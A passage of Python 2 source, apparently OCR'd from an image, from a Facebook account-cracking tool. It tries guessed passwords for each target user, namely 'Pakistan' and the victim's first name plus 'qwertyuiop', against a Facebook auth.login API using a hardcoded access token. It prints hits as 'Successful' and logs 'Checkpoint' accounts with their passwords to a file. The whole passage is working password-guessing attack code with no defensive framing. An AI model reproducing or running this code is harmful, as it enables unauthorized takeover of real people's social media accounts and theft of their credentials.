 									cekpoint.append(user+pass3)

								else:

									pass4 = 'Pakistan'

									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

									q = json.load(data)

									if 'access_token' in q:

										print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass4

										oks.append(user+pass4)

									else:

										if 'www.facebook.com' in q["error_msg"]:

											print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass4

											cek = open("out/checkpoint.txt", "a")

											cek.write(user+"|"+pass4+"\n")

											cek.close()

											cekpoint.append(user+pass4)

										else:

											pass5 = b['first_name'] + 'qwertyuiop'

											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

											q = json.load(data)

											if 'access_token' in q:

												print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass5

												oks.append(user+pass5)

											else:

												if 'www.facebook.com' in q["error_msg"]:

													print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass5

													cek = open("out/checkpoint.txt", "a")

													cek.write(user+"|"+pass5+"\n")

													cek.close()

